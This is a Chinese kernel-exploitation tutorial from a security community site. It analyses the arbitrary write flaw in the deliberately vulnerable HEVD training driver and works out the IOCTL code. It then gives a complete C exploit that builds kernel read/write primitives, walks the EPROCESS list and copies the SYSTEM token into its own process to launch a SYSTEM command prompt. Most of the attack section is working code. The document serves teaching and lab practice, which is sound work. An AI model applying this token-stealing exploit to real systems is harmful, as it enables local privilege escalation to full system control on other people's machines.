# 内核攻防-(3)任意读写驱动漏洞分析及Exp编写-先知社区

> **来源**: https://xz.aliyun.com/news/16795  
> **文章ID**: 16795

---

从现在开始，我们正式进入内核漏洞的教学环节，我们先从HEVD这个驱动漏洞项目入手。

<https://github.com/hacksysteam/HackSysExtremeVulnerableDriver>

# 漏洞点

通过 IDA Pro 进行逆向，我们可以快速找到任意读写模块的漏洞点。

```
*where = *what;
```







从结构体上看，where 和 what 这两个指针我们都是可以控制的。

```
struct _WRITE_WHAT_WHERE{
    unsigned __int64 *what;
    unsigned __int64 *where;
}
```

# 正确计算IOCTL

找到了漏洞点，我们需要找到触发这个漏洞点的IOCTL，否则不能利用这段高危函数。




这里我们先从 Exp 获得对应的 IOCTL，发现 我们传入的 0x802 和 逆向出来的 IOCTL 不一样。这里我们需要再研究一下。



通过源代码发现，其实做了一个运算操作，把我们传入的 IOCTL 进行了规范计算操作。








经过跟踪，我们查看到这个是Windows 自带的宏，这是专门用来规范 IOCTL 代码的宏。



## 正向解析

```
(((0x00000022) << 16) | ((0) << 14) | ((Function) << 2) | (3))
```

```
IOCTL(0x802);

(((0x00000022) << 16) | ((0) << 14) | ((0x802) << 2) | (3))
```

让我们逐步解析这个展开式：

1. `(0x00000022) << 16`：  
   设备类型 `FILE_DEVICE_UNKNOWN` 为 `0x22`，移位 16 位后变为 `0x2200000`。
2. `(0) << 14`：  
   方法为 `METHOD_NEITHER`，所以移位后的值为 `0`。
3. `(0x802) << 2`：  
   功能代码 `0x802` 移位 2 位后变为 `0x2008`。
4. `3`：  
   访问权限 `FILE_ANY_ACCESS` 为 `3`。

```
(0x2200000) | (0) | (0x2008) | (3) = 0x2202008 | 3 = 0x220200B
```

## IDAPro 解析

我们可以通过 IDA pro 插件进行解析

<https://github.com/VoidSec/DriverBuddyReloaded> （这插件已经支持 IDA9.0）

只要在 DispatchDeviceControl 函数下 按 `CTRL+ALT+F` 就可以有 IOCTL代码



当然这是不全的，我们可以通过自己观察规律以及利用 Python 进行快速枚举

我们可以 从 0x800 - 0x900 去枚举我们自己想要的 Function 编号，找到自己目标函数的经过计算后的哈希值即可。

​

​

# 编写 Exp

我们的目标，进行提权操作。

这个原理的核心在于通过内核漏洞读取 PID 4 对应的 `EPROCESS` 结构体中的 `Token`，该 `Token` 通常与系统的最高权限（SYSTEM 权限）相关。

1. 通过漏洞获取内核空间的读取权限，我们能够定位到 PID 4（通常是 System 进程）对应的 `EPROCESS` 结构体，并提取出其中的 `Token`。
2. 利用内核漏洞的写权限，我们将这个高权限的 `Token` 注入到我们当前运行的目标进程中。通过这种方式，目标进程将获得 SYSTEM 权限。
3. 我们可以通过该进程启动一个新的命令行（例如 `cmd.exe`），这个命令行将以 SYSTEM 权限运行，从而实现权限提升，能够执行系统级别的操作和访问原本受限的资源。

## 获取 \_EPROCESS 的 偏移量

查看这个项目 <https://github.com/I3r1h0n/eprocess_offsets>



定义好需要的常量以及 IOCTL

```
#define TriggerArbitraryWrite_IOCTL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_NEITHER, FILE_ANY_ACCESS)

// _EPROCESS offsets 
#define UniqueProcessId_off    0x440
#define ActiveProcessLinks_off 0x448
#define Token_off              0x4b8
```

1. `_SYSTEM_HANDLE` 结构体

```
typedef struct _SYSTEM_HANDLE {
    ULONG       ProcessId;
    BYTE        ObjectTypeNumber;
    BYTE        Flags;
    USHORT      Handle;
    PVOID       Object;
    ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;
```

* **用途**：表示一个系统中的句柄（handle）。句柄是 Windows 中进程和操作系统之间交互的重要标识符，通常用于引用系统资源，如文件、线程或进程等。
* **字段分析**：

* `ProcessId`：拥有该句柄的进程的 ID。
* `ObjectTypeNumber`：表示该对象的类型，通常是一个枚举值，指示对象的类型（如文件、设备等）。
* `Flags`：与句柄的标志有关，例如是否是继承句柄。
* `Handle`：系统资源的句柄值，作为进程与内核之间的引用。
* `Object`：指向与句柄关联的实际对象的指针。
* `GrantedAccess`：访问权限，描述进程对该句柄的访问级别。

​

2. `_SYSTEM_HANDLE_INFORMATION` 结构体

```
typedef struct _SYSTEM_HANDLE_INFORMATION {
    ULONG HandleCount;
    SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;
```

* **用途**：包含系统中的句柄信息。
* **字段分析**：

* `HandleCount`：系统中句柄的数量。
* `Handles`：包含系统句柄数组的第一个元素，数组的大小为 `HandleCount`。它是 `SYSTEM_HANDLE` 结构体的集合，包含所有当前活动的句柄及其相关信息。

​

3. `_SYSTEM_INFORMATION_CLASS` 枚举

```
typedef enum _SYSTEM_INFORMATION_CLASS {
    SystemBasicInformation = 0,
    SystemPerformanceInformation = 2,
    SystemTimeOfDayInformation = 3,
    SystemProcessInformation = 5,
    SystemHandleInformation = 16,
    SystemObjectInformation = 17,
} SYSTEM_INFORMATION_CLASS;
```

* **用途**：定义了查询系统信息时使用的不同类别。这些信息类别通常在调用 `NtQuerySystemInformation` 时作为参数传递，用于请求特定类型的系统信息。
* **常用值**：

* `SystemHandleInformation`：请求系统句柄信息，通常用于获取有关所有句柄的信息，包括它们的对象类型、访问权限和所有者等。

​

4. `NtQuerySystemInformation_t` 函数指针类型

```
typedef NTSTATUS(NTAPI* NtQuerySystemInformation_t)(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
```

* **用途**：定义一个指向 `NtQuerySystemInformation` 的函数指针。这是一个 Windows 内核函数，用于查询有关系统的各种信息（例如句柄、进程、系统性能等）。根据传递的 `SystemInformationClass` 类型，返回不同种类的信息。
* **参数分析**：

* `SystemInformationClass`：指定请求的信息类别（例如 `SystemHandleInformation`）。
* `SystemInformation`：指向将存储返回信息的缓冲区。
* `SystemInformationLength`：缓冲区的大小（字节）。
* `ReturnLength`：返回填充的字节数，指示实际数据的大小。

​

5. `_WRITE_WHAT_WHERE` 结构体

```
typedef struct _WRITE_WHAT_WHERE
{
    PULONG_PTR What;
    PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;
```

* **用途**：通常用于描述一个内存写入操作，其中 `What` 是指向要写入数据的指针，`Where` 是指向数据将被写入的位置的指针。
* **字段分析**：

* `What`：指向要写入的数据的指针。
* `Where`：指向目标内存位置的指针，数据将被写入到该位置。

## 任意写函数

```
VOID arbitrary_write(HANDLE driver, uint64_t value, uint64_t addr) {

    // Allcating space for payload structure on exploit.exe heap
    PWRITE_WHAT_WHERE payload = { HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WRITE_WHAT_WHERE)) };

    // Notice &
    payload->What = (PULONG_PTR)&value;
    payload->Where = (PULONG_PTR)addr;

    DeviceIoControl(driver, TriggerArbitraryWrite_IOCTL, payload, sizeof(WRITE_WHAT_WHERE), NULL, 0, 0, NULL);
}

```

这里有一个坑需要注意，请你查看我为什么填写了 `&value` 而不是 `value`

在代码中，`payload->What = (PULONG_PTR)&value;` 和 `payload->Where = (PULONG_PTR)addr;` 这两行代码的作用是将指针（而不是实际的值）传递给驱动程序的 `TriggerArbitraryWrite` 函数。这是为了让驱动程序能够根据用户提供的地址（`addr`）和数据值（`value`）执行写入操作。

### ​`&value` **为什么有** `&`**？**

* `value` 是一个64位的变量，它存储了你希望写入的具体数据。`&value` 是对 `value` 变量的取地址操作，表示 `value` 变量的内存地址。
* `payload->What` 是一个指针类型，指向 `ULONG_PTR`（通常是 `uintptr_t` 或 `void*` 类型）。它应该存储的是某个值的内存地址，而不是值本身。
* 因此，需要使用 `&value` 来传递 `value` 变量的内存地址。否则，直接将 `value` 的值赋给 `What` 会是错误的，因为 `What` 期望的是一个指针（内存地址）。

**总结**：`&value` 使得 `What` 存储的是 `value` 的地址，而不是 `value` 的值，这样 `TriggerArbitraryWrite` 函数就能通过 `What` 获取到 `value` 的值。

### ​`payload->Where = (PULONG_PTR)addr;`

* 这里的 `addr` 是目标地址，表示数据应当写入的位置。`Where` 是一个指针，表示存储目标地址的指针。
* `(PULONG_PTR)addr` 通过类型转换将 `addr` 强制转换为 `PULONG_PTR`（即 `ULONG_PTR*` 类型的指针），然后将这个指针赋值给 `payload->Where`。这样，驱动程序就会知道要将数据写入到 `addr` 指定的内存地址。

### ​**驱动代码分析**

驱动中的 `TriggerArbitraryWrite` 函数通过以下方式进行内存写入：

```
What = UserWriteWhatWhere->What;
Where = UserWriteWhatWhere->Where;
*Where = *What;
```

* `UserWriteWhatWhere->What` 获取用户传递的 `What`，即指向要写入的值的地址。
* `UserWriteWhatWhere->Where` 获取用户传递的 `Where`，即要写入数据的目标地址。
* 然后通过 `*Where = *What;` 执行写入操作，将 `What` 指向的值写入到 `Where` 指向的地址。

这意味着用户提供了要写入的值的地址和目标地址，驱动程序将从 `What` 指向的地址读取数据，并将其写入到 `Where` 指向的地址。

### 比喻理解

或许讲得有点不懂，我们来打个比喻

假设你有一个信封（`payload`），你要把两个信息放进去：

1. 一个是写给朋友的内容（`value`），
2. 一个是你朋友家地址（`addr`），

**在信封里：**

* 你不能直接放信件内容（`value`）到信封里，而是需要写上信件的地址（`&value`）。这就像是你给信封写一个“信件的地址”，而不是直接放内容进去。信封本身不能直接传递内容，必须传递地址，这样当信封被打开时，你朋友可以从地址那里找到信件的具体内容。

**比喻到代码中：**

* `payload->What = (PULONG_PTR)&value;` 就是将 `value` 的地址放进信封里，而不是把 `value` 本身放进去。
* `payload->Where = (PULONG_PTR)addr;` 就是将目标地址 `addr` 放入信封，告诉程序数据将被写入哪里。

最终，当信封被打开时（即在驱动中），程序会根据“信件地址”（`What`）找到内容（`value`），然后将这个内容写入“朋友的地址”（`Where`）。

​

​

## 任意读函数

只要把反过来即可

```
uint64_t arbitrary_read(HANDLE driver, uint64_t addr) {

    PWRITE_WHAT_WHERE payload = { HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WRITE_WHAT_WHERE)) };

    uint64_t result;

    payload->What = (PULONG_PTR)addr;
    payload->Where = (PULONG_PTR)&result;		// Notice &	

    DeviceIoControl(driver, TriggerArbitraryWrite_IOCTL, payload, sizeof(WRITE_WHAT_WHERE), NULL, 0, 0, NULL);

    return result;
}
```

## 获取 PID 4 TOKEN

通过 NtQuerySystemInformation 获取到 指定 PID 的基地址

```
PVOID FindBaseAddress(DWORD pid) {


    HINSTANCE hNtDLL = LoadLibraryA("ntdll.dll");
    PSYSTEM_HANDLE_INFORMATION buffer;
    ULONG bufferSize = 0xffffff;
    buffer = (PSYSTEM_HANDLE_INFORMATION)malloc(bufferSize);
    NTSTATUS status;
    PVOID ProcAddress = NULL;

    NtQuerySystemInformation_t NtQuerySystemInformation = (NtQuerySystemInformation_t)(GetProcAddress(hNtDLL, "NtQuerySystemInformation"));

    status = NtQuerySystemInformation(0x10, buffer, bufferSize, NULL);

    for (ULONG i = 0; i <= buffer->HandleCount; i++) {
        if ((buffer->Handles[i].ProcessId == pid)) {
            ProcAddress = buffer->Handles[i].Object;
            break;
        }
    }

    free(buffer);
    return ProcAddress;
}

```

```
uint64_t system_proc_base_addr = (uint64_t)FindBaseAddress(4);
uint64_t system_proc_token_addr = system_proc_base_addr + Token_off;
```

## 获取当前进程的 Token

```
PVOID LocateCurrentProc(HANDLE driver, PVOID SYSTEM) {

    DWORD pid = GetCurrentProcessId();
    DWORD curPid;
    PVOID current = SYSTEM;

    do {

        // Follow the next process link
        current = (PVOID)(arbitrary_read(driver, ((uint64_t)current + ActiveProcessLinks_off)) - ActiveProcessLinks_off);

        // Read the PID of 'current'
        curPid = (DWORD)arbitrary_read(driver, ((uint64_t)current + UniqueProcessId_off));

        if (curPid == pid) {
            break;
        }

    } while (current != SYSTEM);

    if (current == SYSTEM) {
        return NULL;
    }

    return current;

}
```

### 1. 函数参数

* `driver`：指向驱动程序的句柄，允许与内核交互。
* `SYSTEM`：这是一个指向某个系统结构的指针，通常指向内核中的进程链表头。

### 2. 获取当前进程 ID

```
DWORD pid = GetCurrentProcessId();
```

通过调用 `GetCurrentProcessId()` 获取当前进程的进程 ID (`pid`)。这将用来在进程链表中找到当前进程。

### 3. 初始化和遍历进程链表

```
PVOID current = SYSTEM;
do {
    current = (PVOID)(arbitrary_read(driver, ((uint64_t)current + ActiveProcessLinks_off)) - ActiveProcessLinks_off);
    curPid = (DWORD)arbitrary_read(driver, ((uint64_t)current + UniqueProcessId_off));
    if (curPid == pid) {
        break;
    }
} while (current != SYSTEM);
```

* `current`：指向当前遍历的进程对象，最开始指向 `SYSTEM`，这是链表的头。
* `ActiveProcessLinks_off`：是链表中每个进程节点指向下一个进程的偏移量。
* `UniqueProcessId_off`：是每个进程节点中存储进程 ID 的偏移量。

在 `do-while` 循环中：

1. 使用 `arbitrary_read(driver, ...)` 读取当前进程结构体中的 "下一个进程" 的地址。这个地址存储在当前进程的 `ActiveProcessLinks` 字段里，指向链表中下一个进程。
2. 通过读取进程结构体中的 `UniqueProcessId` 来获取当前进程的 ID（`curPid`）。
3. 如果 `curPid` 等于当前进程的 `pid`，表示找到了当前进程，跳出循环。

如果遍历到链表的头 `SYSTEM` 还没找到当前进程，函数会返回 `NULL`，表示没找到。

### 4. 返回当前进程结构体

如果在链表中找到了当前进程，就返回当前进程的结构体地址（即 `current`）。

​

`arbitrary_read(driver, ((uint64_t)current + ActiveProcessLinks_off))` 读取当前进程结构体中“下一个进程”的指针。

`- ActiveProcessLinks_off` 是为了将该指针调整为实际下一个进程结构体的地址。

这行代码的目的是使 `current` 指向链表中的下一个进程，从而实现遍历整个进程链表。

可以把它比作：你有一本书（进程结构体链表），每一页（进程）都有一个指向下一页的指针（`ActiveProcessLinks`）。你当前在某一页（`current`），通过这个偏移量，你可以找到该页的“下一页”地址，然后跳转到下一页。

​

# 整体代码如下

```
#include <windows.h>
#include <stdint.h>
#include <stdio.h>


#define TriggerArbitraryWrite_IOCTL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_NEITHER, FILE_ANY_ACCESS)

// _EPROCESS offsets 
#define UniqueProcessId_off    0x440
#define ActiveProcessLinks_off 0x448
#define Token_off              0x4b8


/**
 * Required for defining NtQuerySystemInformation
 */
typedef struct _SYSTEM_HANDLE {
    ULONG       ProcessId;
    BYTE        ObjectTypeNumber;
    BYTE        Flags;
    USHORT      Handle;
    PVOID       Object;
    ACCESS_MASK GrantedAccess;
} SYSTEM_HANDLE, * PSYSTEM_HANDLE;

typedef struct _SYSTEM_HANDLE_INFORMATION {
    ULONG HandleCount;
    SYSTEM_HANDLE Handles[1];
} SYSTEM_HANDLE_INFORMATION, * PSYSTEM_HANDLE_INFORMATION;

typedef enum _SYSTEM_INFORMATION_CLASS {
    SystemBasicInformation = 0,
    SystemPerformanceInformation = 2,
    SystemTimeOfDayInformation = 3,
    SystemProcessInformation = 5,
    SystemHandleInformation = 16,
    SystemObjectInformation = 17,
} SYSTEM_INFORMATION_CLASS;

typedef NTSTATUS(NTAPI* NtQuerySystemInformation_t)(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
    );

NTSTATUS NtQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);


typedef struct _WRITE_WHAT_WHERE
{
    PULONG_PTR What;
    PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;


VOID arbitrary_write(HANDLE driver, uint64_t value, uint64_t addr) {

    // Allcating space for payload structure on exploit.exe heap
    PWRITE_WHAT_WHERE payload = { HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WRITE_WHAT_WHERE)) };

    // Notice &
    payload->What = (PULONG_PTR)&value;
    payload->Where = (PULONG_PTR)addr;

    DeviceIoControl(driver, TriggerArbitraryWrite_IOCTL, payload, sizeof(WRITE_WHAT_WHERE), NULL, 0, 0, NULL);
}


uint64_t arbitrary_read(HANDLE driver, uint64_t addr) {

    PWRITE_WHAT_WHERE payload = { HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(WRITE_WHAT_WHERE)) };

    uint64_t result;

    payload->What = (PULONG_PTR)addr;
    payload->Where = (PULONG_PTR)&result;		// Notice &	

    DeviceIoControl(driver, TriggerArbitraryWrite_IOCTL, payload, sizeof(WRITE_WHAT_WHERE), NULL, 0, 0, NULL);

    return result;
}


/**
 * Used to find the base address of the sytem process
 */
PVOID FindBaseAddress(DWORD pid) {


    HINSTANCE hNtDLL = LoadLibraryA("ntdll.dll");
    PSYSTEM_HANDLE_INFORMATION buffer;
    ULONG bufferSize = 0xffffff;
    buffer = (PSYSTEM_HANDLE_INFORMATION)malloc(bufferSize);
    NTSTATUS status;
    PVOID ProcAddress = NULL;

    NtQuerySystemInformation_t NtQuerySystemInformation = (NtQuerySystemInformation_t)(GetProcAddress(hNtDLL, "NtQuerySystemInformation"));

    status = NtQuerySystemInformation(0x10, buffer, bufferSize, NULL);

    for (ULONG i = 0; i <= buffer->HandleCount; i++) {
        if ((buffer->Handles[i].ProcessId == pid)) {
            ProcAddress = buffer->Handles[i].Object;
            break;
        }
    }

    free(buffer);
    return ProcAddress;
}


/**
 * Used to find our current process. Traverse EPROCESS list using our primitives starting from the system process
 */
PVOID LocateCurrentProc(HANDLE driver, PVOID SYSTEM) {

    DWORD pid = GetCurrentProcessId();
    DWORD curPid;
    PVOID current = SYSTEM;

    do {

        // Follow the next process link
        current = (PVOID)(arbitrary_read(driver, ((uint64_t)current + ActiveProcessLinks_off)) - ActiveProcessLinks_off);

        // Read the PID of 'current'
        curPid = (DWORD)arbitrary_read(driver, ((uint64_t)current + UniqueProcessId_off));

        if (curPid == pid) {
            break;
        }

    } while (current != SYSTEM);

    if (current == SYSTEM) {
        return NULL;
    }

    return current;

}


int main() {


    HANDLE hHevd = CreateFileA("\\.\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    printf("* Driver handle: 0x%p
", hHevd);

    uint64_t system_proc_base_addr = (uint64_t)FindBaseAddress(4);
    uint64_t current_proc_base_addr = (uint64_t)LocateCurrentProc(hHevd, (PVOID)system_proc_base_addr);

    printf("+ System process base address : %p
", system_proc_base_addr);
    printf("+ Current process base address: %p
", current_proc_base_addr);

    uint64_t system_proc_token_addr = system_proc_base_addr + Token_off;
    uint64_t current_proc_token_addr = current_proc_base_addr + Token_off;

    printf("* system token address:  %p
", system_proc_token_addr);
    printf("* current token address: %p
", current_proc_token_addr);

    uint64_t system_token = arbitrary_read(hHevd, system_proc_token_addr);
    arbitrary_write(hHevd, (uint64_t)system_token, current_proc_token_addr);

    printf("+ Overwritten current process token with system token
");

    system("cmd.exe");

    getchar();
    return 0;
}
```

# 演示操作

开启 hevd 驱动



直接运行 我们的 Exp，即可获得 System权限的cmd


